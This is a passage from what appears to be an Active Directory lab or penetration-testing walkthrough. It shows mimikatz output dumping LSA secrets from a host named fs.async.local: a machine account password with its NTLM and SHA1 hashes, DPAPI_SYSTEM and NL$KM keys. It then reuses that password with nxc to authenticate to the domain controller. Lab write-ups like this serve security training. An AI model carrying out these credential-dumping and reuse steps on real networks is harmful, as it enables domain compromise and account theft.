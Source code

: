 ```
cur/text: ,rgG(wIv=bliUW%`_Y:Tb!m`ss.wHI=m/UD[Q*ljJcF&Rf75:tIyZeJ"OjcZD>5KCF&8a7M(uIg2sqtdsn1kexkb]^&.23BTA]H'vXn[K?[v$l4w3-W7b4&%
    NTLM:4099f434b910d7cae4e2e25417da3fa6
    SHA1:20d32659eb15ff4ca1365915e5a3aa1409b667f7
old/text: ,rgG(wIv=bliUW%`_Y:Tb!m`ss.wHI=m/UD[Q*ljJcF&Rf75:tIyZeJ"OjcZD>5KCF&8a7M(uIg2sqtdsn1kexkb]^&.23BTA]H'vXn[K?[v$l4w3-W7b4&%
    NTLM:4099f434b910d7cae4e2e25417da3fa6
    SHA1:20d32659eb15ff4ca1365915e5a3aa1409b667f7

Secret  : DefaultPassword
cur/text: password
old/text: password

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 07 db b0 f2 fa c4 68 55 08 5d 00 b6 dd 90 59 9f 66 32 87 1e 17 dd 6b ac b3 eb f1 33 6e 21 f4 da 27 ad 97 0b 1d 12 49 77
    full: 07dbb0f2fac46855085d00b6dd90599f6632871e17dd6bacb3ebf1336e21f4da27ad970b1d124977
    m/u : 07dbb0f2fac46855085d00b6dd90599f6632871e / 17dd6bacb3ebf1336e21f4da27ad970b1d124977
old/hex : 01 00 00 00 25 cb 73 ee ff 01 2d 45 29 62 5b e4 1a 33 29 67 97 bb 10 03 b5 b5 c8 90 85 d1 b2 c3 8a 56 24 b2 40 f0 d5 8c fa cb 28 0d
    full: 25cb73eeff012d4529625be41a33296797bb1003b5b5c89085d1b2c38a5624b240f0d58cfacb280d
    m/u : 25cb73eeff012d4529625be41a33296797bb1003 / b5b5c89085d1b2c38a5624b240f0d58cfacb280d

Secret  : NL$KM
cur/hex : ad a8 78 92 30 dd 2f 08 f7 24 fe 41 72 7a ef 38 6d 38 22 98 93 61 4a d9 78 78 ba 5c 25 af 86 a7 3b fe 57 bb 43 8a 36 b2 6b 6f 95 13 1b a8 f2 64 48 3f 55 7a b4 7c a4 ff 16 60 c3 24 45 18 ac ad
old/hex : ad a8 78 92 30 dd 2f 08 f7 24 fe 41 72 7a ef 38 6d 38 22 98 93 61 4a d9 78 78 ba 5c 25 af 86 a7 3b fe 57 bb 43 8a 36 b2 6b 6f 95 13 1b a8 f2 64 48 3f 55 7a b4 7c a4 ff 16 60 c3 24 45 18 ac ad

mimikatz(commandline) # exit
Bye!
```

The password located at `$MACHINE.ACC` is the actual password of the machine's domain account: `FS$`, that can be used for domain authentication.

```
┌──(kali㉿kali)-[~/sincon]
└─$ nxc smb dc.async.local -u 'FS$' -p pass
SMB         10.2.10.2       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:async.local) (signing:True) (SMBv1:False) 
SMB         10.2.10.2       445    DC               [+] async.local\FS$:,rgG(wIv=bliUW%`_Y:Tb!m`ss.wHI=m/UD[Q*ljJcF&Rf75:tIyZeJ"OjcZD>5KCF&8a7M(uIg2sqtdsn1kexkb]^&.23BTA]H'vXn[K?[v$l4w3-W7b4&%
```

Similar to the local administrator, this password also regularly rotates so it may not be valid for long.

### 4.4. LSASS


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami